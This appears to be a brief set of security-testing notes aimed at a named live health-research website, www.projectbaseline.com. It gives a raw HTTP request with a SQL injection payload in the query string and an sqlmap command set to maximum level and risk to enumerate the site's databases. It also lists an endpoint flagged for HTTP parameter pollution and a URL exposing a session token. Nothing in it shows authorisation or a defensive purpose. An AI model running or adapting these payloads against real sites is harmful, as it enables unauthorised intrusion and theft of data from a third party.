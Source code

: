 ___

# signalpath

Find urls

# projectbaseline

## SQL Injection 

```
GET /shape-healthtech/?189304164'%20or%204312%3d4317--%20=1 HTTP/2
Host: www.projectbaseline.com
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

```bash
sqlmap -r request.txt --dbs --level 5 --risk 3 
```

## Client-side HTTP parameter pollution

```
POST /studies/rheumatoid-arthritis-galvani/contact/
```



### Session token in url 

```
GET /content/verily/us/en/studies/rheumatoid-arthritis-galvani/contact/jcr:content.recaptcha.json?token=03AFcWeA7zmp4
...
```

